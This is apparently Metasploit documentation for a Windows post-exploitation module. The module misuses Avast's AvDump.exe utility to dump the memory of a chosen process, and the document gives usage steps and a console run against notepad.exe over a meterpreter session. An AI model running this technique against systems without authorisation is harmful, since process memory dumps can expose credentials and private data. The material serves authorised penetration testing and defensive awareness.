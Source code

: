### Vulnerable Application -  Avast Home Security Suite - Avdump.exe

The Avast Home Security suite ships with a memory dumping utility that can be
leveraged to dump process memory of user defined processes to user defined 
locations.


A detailed write up can be found at https://archcloudlabs.com/projects/dumping-memory-with-av/


## Verification Steps

Verify that the path ```C:\\Program Files\\Avast Software Avast\\AvDump.exe```
exists.
1. Start msfconsole
2. Get meterpreter session
3. Do: ```use post/windows/gather/avast_memory_dump```
4. Do: ```set SESSION <session id>```
5. Do: ```set DUMP_PATH <specify path dest>```
6. Do: ```set PID <pid>```
7. Do: ```run```

## Options

### PID 
Specify the PID of the process you would like to dump.

### DUMP_PATH 
Specify the location to write the memory dump to.

##  Scenarios  

### Windows 10 (2004 OS Build 19041.572)
```
msf > search avast

Matching Modules
================

   #  Name                                   Disclosure Date  Rank    Check  Description
   -  ----                                   ---------------  ----    -----  -----------
   0  post/windows/gather/avast_memory_dump                   normal  No     Avast AV Memory Dumping Utility


msf > use 0

msf post(windows/gather/avast_memory_dump) > sessions -C 'ps -N notepad.exe'
[*] Running 'ps -N notepad.exe' on meterpreter session 4 (192.168.218.131)
Filtering on 'notepad.exe'

Process List
============

 PID   PPID  Name         Arch  Session  User                  Path
 ---   ----  ----         ----  -------  ----                  ----
 8504  1812  notepad.exe  x64   1        DESKTOP-CD2VHVO\user  C:\Windows\System32\notepad.exe

msf post(windows/gather/avast_memory_dump) > show options

Module options (post/windows/gather/avast_memory_dump):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   DUMP_PATH  C:\Users\Public\test.dmp  yes       specify location to write dump file to
   PID        8504                      yes       specify pid to dump
   SESSION    4                         yes       The session to run this module on.
   
msf post(windows/gather/avast_memory_dump) > set PID 8504
PID => 8504

msf post(windows/gather/avast_memory_dump) > set SESSION 4
SESSION => 4

msf post(windows/gather/avast_memory_dump) > run

[*] [2020.10.21-22:49:24] AvDump.exe exists!
[*] [2020.10.21-22:49:24] executing Avast mem dump utility against 8504 to C:\Users\Public\test.dmp
[*] [2020.10.21-22:49:29] [2020-10-22 02:49:26.969] [info   ] [dump       ] [ 1400: 8032] Dumpmaster is arming.
[2020-10-22 02:49:27.047] [info   ] [dump       ] [ 1400: 8032] Successfully dumped process 8504 into 'C:\Users\Public\test.dmp'
[2020-10-22 02:49:27.047] [info   ] [log_module ] [ 1400: 8032] LogModule is going to be destroyed.
[2020-10-22 02:49:27.047] [info   ] [log_module ] [ 1400: 8032] =====================================================================================================================
[*] Post module execution completed

```

